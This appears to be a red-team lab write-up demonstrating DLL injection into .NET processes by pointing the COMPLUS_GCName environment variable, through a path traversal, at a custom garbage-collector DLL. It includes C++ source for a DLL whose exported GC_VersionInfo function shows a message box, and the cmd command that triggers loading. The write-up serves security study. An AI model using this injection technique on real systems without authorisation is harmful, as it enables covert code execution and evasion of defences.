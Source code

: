 ```yaml
---
layout: post
title: "injecting dll via custom .net garbage collector environment variable complus_gcname"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# DLL Injection via a Custom .NET Garbage Collector

This is a quick lab to test a DLL injection technique discovered by [@am0nsec](https://twitter.com/am0nsec), which he describes in his blogpost [https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector](https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector) - go check it out!

The idea behind this technique is that a low privileged user can specify a custom Garbage Collector (GC), that a  .NET application should use. A custom GC can be specified by setting a command shell environment variable `COMPLUS_GCName`, that points to a malicious DLL which represents a custom Garbage Collector.

{% hint style="warning" %}
Normally, specifying a custom GC requires administartor privileges, however, since path to a custom GC in `COMPLUS_GCName` is not sanitized when a custom GC is loaded, directory traversal allows **any** unprivileged user to specify a custom GC to be loaded from an arbitrary location to which they can drop their DLL.
{% endhint %}

The Gargage Collector DLL needs to export `GC_VersionInfo` method for this technique to work - this is the method that will contain our payload, that will be executed once a .NET program starts and loads our custom GC DLL.

## Execution

Let's create a DLL that represents a custom Garbage Collector. It needs to export a function `GC_VersionInfo`, which in our case executes a simple message box:

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "Injection", "Injection", 0);
}
```

Once the DLL is compiled, we can set the `COMPLUS_GCName` environment variable in our cmd.exe shell and point it to the compiled DLL:

```
set COMPLUS_GCName=..\..\..\..\..\..\..\..\..\..\..\..\..\labs\GarbageCollector\GC\x64\Release\GC.dll & dotnet.exe -h
```

We can execute any .NET binary found on the system and it will load our GC.dll. In this lab, we do:

```
dotnet.exe -h
```

Below shows that our GC.dll got injected into the dotnet.exe:

![](<../../.gitbook/assets/image (571).png>)

## References

{% embed url="https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector" %}
@spotheplanet
